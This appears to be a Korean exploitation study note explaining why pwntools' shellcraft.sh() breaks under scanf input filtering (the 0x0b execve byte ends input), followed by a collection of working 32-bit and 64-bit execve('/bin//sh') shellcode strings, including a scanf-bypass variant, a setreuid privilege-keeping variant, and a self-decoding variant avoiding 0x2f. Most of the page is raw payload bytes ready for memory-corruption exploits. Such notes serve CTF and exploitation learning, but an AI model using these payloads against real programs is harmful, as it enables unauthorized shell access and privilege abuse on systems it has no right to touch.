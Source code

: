 <p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188449817-feb0b06a-fdf5-43ae-90a2-0d31e22b0fc1.jpg" width = 460>
</p>

이렇게 해결할 수 있었다. 하지만 pwntools에서 제공하는 `shellcraft.sh()`로는 해결할 수 없었다. 아래는 `shellcraft.sh()`를 print 한 것이다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188450287-220a0bff-7275-4e46-bc9b-ddc9a603f4c4.jpg" width = 380>
</p>

빨간 네모칸을 보면 SYS_execve를 하기 위해 **0xb** 값을 PUSH 한다. execve는 syscall로 11번이기에 **0xb**를 PUSH 해줘야 한다. 하지만 `scanf`는 `\x09, \x0a, \x0b, \x0c, \x0d, \x20`의 값을 읽게 되면 EOF를 선언해버리기 때문이다. 

즉, shellcraft.sh()에는 **x0b**가 포함되어 있어서 사용하지 못하는 것이다.

## 32bit Shellcode

* 25 Bytes Shell Code
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```

* 26 Bytes Shell Code (Scanf 우회)
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x05\x04\x06\xcd\x80
```

* 41 Bytes Shell Code (setreuid(geteuid(), getreuid()) 포함)
```
\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```

* 48 Bytes Shell Code  (\x2f가 없는 쉘코드)
```
\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81
```

## 64bit Shellcode

* 25 Bytes Shell Code
```
\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05
```

* 31 Bytes Shell Code
```
\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05
```

* 출처
   * [hackhijack64's tistory](https://hackhijack64.tistory.com/38)
   * [Shell-Storm.org](http://shell-storm.org/shellcode/)